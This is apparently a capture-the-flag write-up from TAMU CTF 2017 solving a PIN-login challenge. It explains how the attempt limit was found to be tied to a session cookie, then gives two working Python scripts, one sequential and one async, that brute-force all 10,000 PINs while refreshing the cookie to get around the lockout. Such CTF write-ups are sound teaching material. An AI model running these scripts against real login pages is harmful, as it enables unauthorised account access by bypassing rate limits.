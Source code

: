 # TAMU_CTF-2017-Writeups
# Super Secure Pin - 100 points

## Preliminary Research
The link in question is http://pin.ctf.tamu.edu/ and there is not much too it.  After clicking a link called 'login' you get to http://pin.ctf.tamu.edu/login, this is where the fun is to be had.

I looked at the source code, but there was nothing of interest, looks like we will have to brute-force this.

I opened up [BurpSuite](https://portswigger.net/burp/) and took a look at the POST requests, there was a cookie called **uid** and then the pin, called **pin**; referer was also set as pin.ctf.tamu.edu.

I sent the POST over to the 'repeater' feature in BurpSutie.  I just wanted to try some basic combinations and save myself the time of brute-forcing.  I tried 0000, 6969, 9999, 1111, then something weird happened, I didn't get the usual error message, I got *WRONG: too many tries*.

After some testing and consulting my teammates at Umbra, we came to the conclusion that the cookie was only good for 4 tries.

So now we know what we have to do, try all 10 000 pins from 0000-9999 but get a new cookie every 4 attempts.

## The code
Normally I would use [Hydra](http://sectools.org/tool/hydra/), but Hydra wants a login and a password.  So for this I used [Python3](https://www.python.org/downloads/) with the [requests](http://docs.python-requests.org/en/master/) library.

This was the code I settled on:
```python
#!/usr/env/python3

import requests

#send a GET to refresh uid cookie
def get_cookie(url, cookie_id):
    return {cookie_id: requests.get(url).cookies[cookie_id]}

#'0000' - '9999'
pins = [str(i).zfill(4) for i in range(10000)]

t_url = "http://pin.ctf.tamu.edu/login"
t_headers={'referer': 'http://pin.ctf.tamu.edu/login'}
i = 0 #lazy counter

for pin in pins:
    #every 4 attempts cookie needs to be refreshed
    if i % 3 == 0:
        t_cookies = get_cookie(t_url, 'uid')
    pin_field = {'pin': pin}
    r = requests.post(t_url, data=pin_field, cookies=t_cookies, headers=t_headers)
    if "WRONG" not in r.text:
        print(r.text)
    print(pin)
    i += 1
```

This code *will* work, but it is SLOW.  It took 20-30min to get the pin and it wasn't even half way through all possible values.  So I decided to write something faster using pythons async.  If you don't know what async is, it is like threading but neater.

I used the [grequests](https://github.com/kennethreitz/grequests) library for the following faster code:
```python
#!/usr/env/python3

#Values prefixed with 't_' are user defined
#'t_' is short for 'target_'

import grequests
import requests

def get_cookie(url, cookie_id):
    return {cookie_id: requests.get(url).cookies[cookie_id]}

def gpost_it(t_url, t_data, t_cookies, t_headers):
    return grequests.post(
        t_url, 
        data=t_data, 
        cookies=t_cookies, 
        headers=t_headers)

pins = [str(i).zfill(4) for i in range(10000)]

t_url = "http://pin.ctf.tamu.edu/login"
t_headers={'referer': 'http://pin.ctf.tamu.edu/login'}
t_cookies = get_cookie(t_url, 'uid')
to_do = []

print("Running aysnc batches of 4 requests each for cookie refreshing")
for i, pin in enumerate(pins):
    to_do.append(gpost_it(t_url, {'pin': pin}, t_cookies, t_headers))
    
    if i % 3 == 0:
        t_cookies = get_cookie(t_url, 'uid')
        to_do = set(to_do) #Done for performance
        
        for response in grequests.map(to_do):
            if "WRONG" not in response.text:
                print(response.text)
                break
            
            elif "tries" in response.text:
                print("too many tries error, adjust cookie refresh")
        
        to_do=[] #Reset list
    
    #Just me being fancy
    percent_complete = round(i/len(pins) * 100, 2)
    if percent_complete % 5 == 0:
        print(int(percent_complete), "%", end='\r')

print("C'est fini")
```
Due to the fact that in order to run async you need to assemble a 'to do' list first, and that list will be executed in pseudo-random order, we can only afford to run batches of 4 POSTs at a time, or the cookie might expire.  This requires some more code, but it **is** faster.  This wil get the flag in just under 15min.

Also because the second one was not written just as I went along, it is much neater and more 'pythonic'.
